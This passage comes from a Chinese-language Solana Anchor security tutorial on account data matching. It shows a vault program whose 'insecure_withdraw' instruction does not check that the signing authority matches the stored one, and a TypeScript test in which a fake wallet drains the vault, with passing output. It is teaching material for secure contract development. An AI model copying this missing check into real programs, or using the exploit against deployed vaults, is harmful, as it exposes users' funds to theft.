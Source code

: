 ```rust
    )]
    pub token_account: Account<'info, TokenAccount>,
    #[account(mut)]
    pub withdraw_destination: Account<'info, TokenAccount>,
    pub token_program: Program<'info, Token>,
    pub authority: Signer<'info>,
}

#[account]
pub struct Vault {
    token_account: Pubkey,
    authority: Pubkey,
    withdraw_destination: Pubkey,
}
```

### 2. 测试 `insecure_withdraw` 指令

为了证明这是一个问题，让我们编写一个测试，在保险库之外的账户尝试从保险库中提取。

测试文件包括使用提供者钱包作为 `authority` 调用 `initialize_vault` 指令的代码，然后将 100 个代币铸造到 `vault` 代币账户中。

添加一个测试来调用 `insecure_withdraw` 指令。使用 `withdrawDestinationFake` 作为 `withdrawDestination` 账户，并使用 `walletFake` 作为 `authority`。然后使用 `walletFake` 发送交易。

由于没有检查来验证传递到指令中的 `authority` 账户是否与在第一个测试中初始化的 `vault` 账户上存储的值匹配，因此该指令将成功执行，并且代币将被转移到 `withdrawDestinationFake` 账户中。

```tsx
describe("account-data-matching", () => {
  ...
  it("Insecure withdraw", async () => {
    const tx = await program.methods
      .insecureWithdraw()
      .accounts({
        vault: vaultPDA,
        tokenAccount: tokenPDA,
        withdrawDestination: withdrawDestinationFake,
        authority: walletFake.publicKey,
      })
      .transaction()

    await anchor.web3.sendAndConfirmTransaction(connection, tx, [walletFake])

    const balance = await connection.getTokenAccountBalance(tokenPDA)
    expect(balance.value.uiAmount).to.eq(0)
  })
})
```

运行 `anchor test`，查看两个交易是否都成功完成。

```bash
account-data-matching
  ✔ Initialize Vault (811ms)
  ✔ Insecure withdraw (403ms)
```
